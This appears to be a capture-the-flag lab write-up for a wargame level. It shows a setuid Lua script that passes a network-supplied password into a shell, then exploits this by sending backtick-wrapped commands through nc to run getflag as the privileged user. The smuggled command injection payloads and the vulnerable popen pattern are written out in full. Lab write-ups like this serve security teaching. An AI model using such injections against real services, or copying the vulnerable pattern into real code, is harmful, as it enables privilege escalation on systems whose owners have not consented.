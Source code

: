 # LEVEL 10

In our home directory, we see a ```lua``` script with suid/guid bit:
    >$ ls -l
    total 4
    -rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua

    >$ cat level11.lua
    #!/usr/bin/env lua
    local socket = require("socket")
    local server = assert(socket.bind("127.0.0.1", 5151))

    function hash(pass)
      prog = io.popen("echo "..pass.." | sha1sum", "r")
      data = prog:read("*all")
      prog:close()

      data = string.sub(data, 1, 40)

      return data
    end


    while 1 do
      local client = server:accept()
      client:send("Password: ")
      client:settimeout(60)
      local l, err = client:receive()
      if not err then
          print("trying " .. l)
          local h = hash(l)

          if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
              client:send("Erf nope..\n");
          else
              client:send("Gz you dumb*\n")
          end

      end

      client:close()
    end

We can see this program waits for a connection with the server running on 127.0.0.1 (hostname) 5151 (port).
It will prompt for a password and pass anything we write to a hashing function.
Let's see if we can exploit that, by tricking it to run `getflag` in the place of the password.
if we try:
    >$ ./level11.lua
we get:
    lua: ./level11.lua:3: address already in use
    stack traceback:
      [C]: in function 'assert'
      ./level11.lua:3: in main chunk
      [C]: ?
so let's check it using netstat to list all running processes:
    >$netstat -tulpn
    tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
Let's try to connect to this host&port mentioned in the file and try with a `whoami` as password to check our permissions:
    >$ nc 127.0.0.1 5151
    Password: `whoami`
    Erf nope..
We can't see the output of the command, since the script pipes it.
Let's redirect it to a file:
    >$ nc 127.0.0.1 5151
    Password: `whoami` > /tmp/test
    Erf nope..
    >$ cat /tmp/test
    flag11
so now we can try to run getflag as flag11:
    >$ nc 127.0.0.1 5151
    Password: `getflag` > /tmp/token
    Erf nope..
    >$ cat /tmp/token
    Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Vulnerability:
Subprocess on user-provided input in script run by privileged user -> Privilege escalation via code injection.

Documentation:
* https://www.ionos.com/digitalguide/server/tools/introduction-to-netstat/
* https://linux.die.net/man/1/nc